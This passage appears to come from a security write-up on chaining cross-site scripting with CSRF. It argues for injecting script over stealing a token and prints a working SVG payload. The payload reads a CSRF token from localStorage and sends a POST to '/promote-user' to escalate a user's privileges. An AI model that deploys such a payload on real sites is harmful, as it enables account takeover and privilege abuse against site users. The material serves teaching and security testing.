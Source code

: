 <figure><img src="/assets/postImg/pid4/10.png" alt=""><figcaption></figcaption></figure>

#### So, what's the game plan here? 
Steal the CSRF token, whip up a proof-of-concept (PoC), and send it off to the victim, right? 



> Big nope. This approach takes time and by the time the victim uses your PoC, that token could already be long expired.
{: .prompt-warning }





> A better approach is to use XSS to inject malicious JavaScript that reads the CSRF token directly from local storage and sends the request automatically.
{: .prompt-tip }






```xml
<svg xmlns="http://www.w3.org/2000/svg">
  <script>
    (() => {
      const var_csrfToken = localStorage.getItem('csrfToken');
      fetch('/promote-user', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
          'X-CSRF-Token': var_csrfToken
        },
        body: 'user_id=2'
      });
    })();
  </script>
  <rect width="100" height="100" fill="#f00" opacity="0.1"/>
</svg>
```
